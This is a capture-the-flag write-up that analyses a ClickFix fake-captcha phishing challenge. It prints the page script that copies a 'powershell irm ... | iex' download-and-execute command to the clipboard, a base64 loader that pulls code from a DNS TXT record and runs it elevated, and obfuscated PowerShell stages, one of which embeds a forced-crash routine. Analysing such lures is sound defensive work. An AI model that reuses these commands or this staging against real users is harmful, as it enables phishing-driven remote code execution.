

# Description
One of our users received an email asking them to provide extra verification to download a zip file, but they weren't expecting to receive any files. Can you look into the verification link to see if it's...phishy?

NOTE, if you visit this link below and it does not respond, try to make a connection in a different way. The challenge is functional and you should get a response.

WARNING: Please examine this challenge inside of a virtual machine for your own security. Upon invocation there is a real possibility that your VM may crash.

**Category : Malware**

(solved during the CTF)

# Writeup
going to the link provided to use we are greeted with a captcha



This is clearly a fake captcha, called a `ClickFix` and is used in `LummaStealer` campaigns

Here is the implentation of it by the organiser himself, which i found during the ctf itself: https://github.com/JohnHammond/recaptcha-phish

So, the captcha wants us to paste a certain something after pressing `Windows + R`, lets first loook at the html of the page

```c
        function showVerifyWindow() {
            verifywindow.style.display = "block";
            verifywindow.style.visibility = "visible";
            verifywindow.style.opacity = "1";
            verifywindow.style.top = checkboxWindow.offsetTop - 80 + "px";
            verifywindow.style.left =  checkboxWindow.offsetLeft + 54 + "px";

            if (verifywindow.offsetTop < 5) {
               verifywindow.style.top = "5px";
            }

            if (verifywindow.offsetLeft + verifywindow.offsetWidth > window.innerWidth-10 ) {
               verifywindow.style.left =  checkboxWindow.offsetLeft - 8  + "px";
            }

            var verification_id = generateRandomNumber();
            document.getElementById('verification-id').textContent = verification_id;

            const htaPath = window.location.origin + "/recaptcha-verify";
            const domain = window.location.hostname;
            const commandToRun = `powershell -NoP -Ep Bypass -c irm ${domain}/verify | iex`;
            stageClipboard(commandToRun, verification_id)
        }
```

the suspcious line here is `powershell -NoP -Ep Bypass -c irm ${domain}/verify | iex`, this is the command that gets copied to our clipboard with domain replaced with `captcha.zip`

the command simply downloads something from `captcha.zip/verify` and gets executed, lets see what it is:
```bash
$d='aWV4IChbVGV4dC5FbmNvZGluZ106OlVURjguR2V0U3RyaW5nKFtDb252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygoUmVzb2x2ZS1EbnNOYW1lIC1OYW1
lIDVnbWx3LnB5cmNoZGF0YS5jb20gLVR5cGUgVFhUKS5TdHJpbmdzIC1qb2luICcnKSkp'
$dn=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($d))
(New-Object -ComObject Shell.Application).ShellExecute("powershell", "-NoP -Ep Bypass -c $dn", "", "runas", 0)
```

this decodes to
```bash
iex ([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((Resolve-DnsName -Name 5gmlw.pyrchdata.com -Type TXT).Strings -join '')))
```

This attempts DNS TXT lookup to download final malicious payload from `5gmlw.pyrchdata.com`. Lets now use `dig` to get `TXT` records:
```bash
└─$ dig TXT 5gmlw.pyrchdata.com
......
;; ANSWER SECTION:
5gmlw.pyrchdata.com.    112     IN      TXT     "KG5Fdy1vQmpFQ1QgIHNZc1RFbS5pby5jT21QUkVzU0lPTi5ERUZMQVRlc1RyRUFNKCBbSU8ubUVNT3JZc3RSZUFNXSBbU3lTdEVNLmNPbnZlcnRdOjpGck9tYmFTRTY0c3RyaU5HKCAnVFZScmM5bzZFUDBybW43Qm5tSVhrcEJKNHVFRDVkR1FHeDVqQ0tUTzVJTWZBcFRhbGtlV3VTUzkvZTkzand5a3pHaDNMYTJPemg2dFlOYUw0dHZoNGZ" "YdUx1dnAvbTY0c05nWDI3NitmUFY3OS8yWHB0MXB0ZXZ3YSt2MkdMUlBVeFpqdzM3dnNSajZEbU5YcHkwTi8zclJPTS9mbnBFdTJpZWtxNXRqY0hPRXRJWnhMeTI0SHp2TWJ0aU5ydzNiSnBCdWQ5dW51S0F4ZmljVDAvaFlYZnpjUDl3L2lWNy9rVDVGaTh6OUpCME5acjhlM2dMNjZQd2FCS2xQd1RLNEl0dWpRV3ZCZXBJR0g1TnM5emJaMG" "N6MzViUVZmMHd1S1N3dnNXdDN5TWdHQWp0cTRIajlzd3l5c1h6NkVZblJPbndmMFdTMmFuWElyUVBkdVlqZTB5eXBWc01rbmFhejY5YUk0blZVM1daeEVlVFJxTE9JVXY4U2hEdFRNdTAxbFdOdGMrQXJ2Ymk2NW1YNFBaUDRBdTdkM2F0V2ZKOVRLUHN2WkpGS2VSUnAvc085SVQ5YWtubWlSRnBKWkp3UFhYM2dxTktrc3dNWG5tMXBBT3dXb" "EVYQjg0dUg4MFdBTkZZcXJqbHFERlZJZHE1NENqSkZKdnNPMWlzRlhaWmxpWlM1dzdDbXd0Mml6L2cyckxhZ0ZqNDZyUHhFekVGZmFHR0sydkFCeHozaG1wWU9xK09sazVCTGV0MFFLWkNaZTNTdjVCZHBpaFVhYnNaMStiNkFQSFV5NW5BS3poRElpc0NhRzJLOUJMTnh6aFhmY04rTkRTejNDbWdUOFUxWTV0VTNuTHlNdW1VdWhVWThVOWll" "Q2xUcVlyZW9pZFNDa0JwR0NtU2ErK2k3NnBTTWMrVUF5UW0rREUvb29tUCtGczJjZjQ4a3AxMkNKQkxtM0Q5L1BGc3hYVW5XUkoyc2FlNllCNjdDM2N3MWRCeXpKdG5XeVY2UXcyalJEdzRjRHkwTCt5UzRxMkVDaDF1NzU2V0E5L1hVd3lNQlpuMFlMMU1zYkNpcWxHYk4yN1lGYmx1cVpTL1VISWtRc0hwTGVxbjJQYUtZaThyVERBSkxHZjA" "rOXc0UUV5SDM4RURZNEdqU2xSbXhkYWhMaXRLb0t1Z21BUUpRb29ETnJMa3lmTWdRT0d2T21kSlVNWlg3Wk9acEVwNUdjMnAwTkZuRDA1cjFXVzVJaGVMNlF5clVyTEhjeUFqb0EvK0x5dkZQd1JCNnRmSHFqOTJWdURSMGpyYlNTcHBHSDZQV2RJRDM0dGt6bG1KV1JtY0ZselFqSStJRGozNUNBWFV0ZUdGOFc3Y1JoSUdnSldxQm1xRGluMn" "BnK1lra1ptSngwZ3Q0aHFHaEJ4Nm0vOTF6WktqaUhHSmJvUEhHYVUzMTl6TXJ5ekNOQVhic2drOUlpSSsrODBvZWk3M2lRQ2drVVRCdDV2Sk02THp5ajYwTFJ2VG5VVmJlc1pYTm82YnZBczhGajlxeUxQYk14K3dMdGFaTHZkdFE0KzM5VXN2SDRVZzNtTzA4U0RGdFVNRCtZK1BwU3Y3REhmNWNLRjR1eG5MNlB3PT0nKSAsIFtJTy5jT21QU" "mVTU0lvTi5jb01wckVTc2lvbm1vZEVdOjpEZWNvbVBSRXNzKSB8IGZvUkVhQ0ggeyBuRXctb0JqRUNUICBpTy5zVFJFYW1SRUFkZXIoJF8gLCBbdEV4VC5FTkNPZGlOR106OkFzY0lpICkgfXxmb3JlYUNoIHskXy5yRWFkdE9FbmQoICkgfSkgfCYoICRTSGVsTGlEWzFdKyRTSEVMTElEWzEzXSsnWCcp"
....
```

It is clearly base64, so lets first decode that:
```bash
(nEw-oBjECT  sYsTEm.io.cOmPREsSION.DEFLATesTrEAM( \[IO.mEMOrYstReAM\] [SyStEM.cOnvert]::FrOmbaSE64striNG( 'TVRrc9o6EP0rmn7BnmIXkpBJ4uED5dGQGx5jCKTO5IMfApTalkeWuSS9/e93jwykzGh3La2Ozh6tYNaL4tvh4fXuLuvp/m64sNgX276+fPV79/2Xpt1ptevwa+v2GLRPUxZjw37vsRj6DmNXpy0N/3rROM/fnpEu2iekq5tjcHOEtIZxLy24HzvMbtiNrw3bJpBud9unuKAxficT0/hYXfzcP9w/iV7/kT5Fi8z9JB0NZr8e3gL66PwaBKlPwTK4ItujQWvBepIGH5Ns9zbZ0cz35bQVf0wuKSwvsWt3yMgGAjtq4Hj9swyysXz6EYnROnwf0WS2anXIrQPduYje0yypVsMknaaz69aI4nVU3WZxEeTRqLOIUv8ShDtTMu01lWNtc+Arvbi65mX4PZP4Au7d3atWfJ9TKPsvZJFKeRRp/sO9IT9aknmiRFpJZJwPXX3gqNKkswMXnm1pAOwWlEXB84uH80WANFYqrjlqDFVIdq54CjJFJvsO1isFXZZliZS5w7Cmwt2iz/g2rLagFj46rPxEzEFfaGGK2vABxz3hmpYOq+Olk5BLet0QKZCZe3Sv5BdpihUabsZ1+b6APHUy5nAKzhDIisCaG2K9BLNxzhXfcN+NDSz3CmgT8U1Y5tU3nLyMumUuhUY8U9ieClTqYreoidSCkBpGCmSa++i76pSMc+UAyQm+DE/oomP+Fs2cf48kp12CJBLm3D9/PFsxXUnWRJ2sae6YB67C3cw1dByzJtnWyV6Qw2jRDw4cDy0L+yS4q2ECh1u756WA9/XUwyMBZn0YL1MsbCiqlGbN27YFbluqZS/UHIkQsHpLeqn2PaKYi8rTDAJLGf0+9w4QEyH38EDY4GjSlRmxdahLitKoKugmAQJQooDNrLkyfMgQOGvOmdJUMZX7ZOZpEp5Gc2p0NFnD05r1WW5IheL6QyrUrLHcyAjoA/+LyvFPwRB6tfHqj92VuDR0jrbSSppGH6PWdID34tkzlmJWRmcFlzQjI+IDj35CAXUteGF8W7cRhIGgJWqBmqDin2pg+YkkZmJx0gt4hqGhBx6m/91zZKjiHGJboPHGaU319zMryzCNAXbsgk9IiI++80oei73iQCgkUTBt5vJM6Lzyj60LRvTnUVbesZXNo6bvAs8Fj9qyLPbMx+wLtaZLvdtQ4+39UsvH4Ug3mO08SDFtUMD+Y+PpSv7DHf5cKF4uxnL6Pw==') , [IO.cOmPReSSIoN.coMprESsionmodE]::DecomPREss) | foREaCH { nEw-oBjECT  iO.sTREamREAder($_ , [tExT.ENCOdiNG]::AscIi ) }|foreaCh {$_.rEadtOEnd( ) }) |&( $SHelLiD[1]+$SHELLID[13]+'X')
```
here it says deflate stream, so  lets deflate (without headers), and we get this:
```bash
 ([regEx]::mAtChES( "))63]RAHC[,)501]RAHC[+09]RAHC[+101]RAHC[(  ECALpER-  43]RAHC[,'R6S'ECALpER- 93]RAHC[,)211]RAHC[+48]RAHC[+89]RAHC[(EcAlpeRc- )')'+'))R6S==gC'+'p'+'Iy'+'c'+'zV2YvJHUiACL'+'i0'+'HMlFDOkJjZ'+'5kDZlR'+'TZ4'+'A'+'DOkZWMlZzMmhjMh'+'BTN0czM3'+'s3Z'+'hxm'+'Zi'+'ACL'+'icWYsZmIoUGbiFWayF'+'mV05'+'WZt52bylmduVEdlNlO60FduVWbu9mcpZnbF5SblR3c'+'5N'+'1WR6S(gni'+'rtS46esaBmo'+'rF'+'::]trevn'+'oC['+'(gnirtS'+'teG.8'+'FT'+'U::]gnidocnE.txe'+'T['+'( xei;)(t'+'ohS::]'+'X[;c'+'iZe'+' sretem'+'ara'+'Preli'+'pmoC-'+' urh'+'Tss'+'aP- '+'prahSC egaugn'+'aL- s'+'iZe'+' no'+'itini'+'feDep'+'y'+'T- ep'+'yT-d'+'dA=ai'+'Z'+'e;)R6'+'Sll'+'d'+'.metsySR6S(d'+'dA'+'.s'+'e'+'il'+'bm'+'ess'+'Ade'+'cnerefeR.ci'+'Ze;pT'+'befasnu/p'+'Tb=snoitp'+'Or'+'elipmoC.'+'ciZ'+'e;sretemaraPrelip'+'mo'+'C.relipmoC.m'+'oD'+'edoC.metsyS '+'tcejbO-w'+'e'+'N=ciZe;p'+'Tb}};)r tuo ,6'+' ,o'+'reZ.rt'+'Ptn'+'I ,'+'0 ,'+'0 ,2'+'2'+'0000'+'0'+'cx0('+'ror'+'rEdr'+'a'+'Hesia'+'RtN;'+')t'+' tuo ,esla'+'f ,eurt ,91(e'+'gelivirPt'+'s'+'ujdAltR;r tniu;t l'+'oob{)(t'+'ohS'+' diov'+' e'+'f'+'asnu ci'+'tats cilbup;)R tni'+'u tu'+'o ,V'+' t'+'niu ,P rtPtnI ,U'+' tniu'+' '+',N '+'tniu ,E'+' tniu(ror'+'rEdraHes'+'iaRtN tniu n'+'ret'+'xe ci'+'tats '+'c'+'ilbup])R'+'6'+'Slld.lldtnR6S(tro'+'pmIl'+'lD['+';)O lo'+'ob'+' tuo ,T loob ,E loo'+'b ,P t'+'ni'+'(eg'+'eliv'+'irPtsu'+'jdAl'+'tR'+' tniu nret'+'xe'+' citats cil'+'bup])R6'+'S'+'ll'+'d.'+'ll'+'dtnR6S'+'(tropm'+'IllD['+'{X ssalc cit'+'a'+'ts cil'+'b'+'up'+';secivreS'+'poretn'+'I.emitnuR.metsyS'+' gnisu;metsyS gn'+'isupTb=siZe'((( XeI " ,'.' ,'rIgHTtoLEFt' )-JoiN'' ) | INVoKe-eXpresSIoN
```

the b64 string we end up getting for this is:
```bash
gCpIyczV2YvJHUiACLi0HMlFDOkJjZ5kDZlRTZ4ADOkZWMlZzMmhjMhBTN0czM3s3ZhxmZiACLicWYsZmIoUGbiFWayFmV05WZt52bylmduVEdlNlO60FduVWbu9mcpZnbF5SblR3c5N1WR6S
```

but if see clearly the ps command says that it decodes the data `'rIgHTtoLEFt'`, so reversing it we get:
```bash
W1N5c3RlbS5FbnZpcm9ubWVudF06OlNldEVudmlyb25tZW50VmFyaWFibGUoImZsYWciLCAiZmxhZ3s3Mzc0NTBhMjhmMzZlMWZkODA4ZTRlZDk5ZjJkODFlMH0iLCAiUHJvY2VzcyIpCg==
```
I removed the `S6R` at the begiinning, decoding this string we get:
```bash
[System.Environment]::SetEnvironmentVariable("flag", "flag{737450a28f36e1fd808e4ed99f2d81e0}", "Process")
```

and thats our flag.
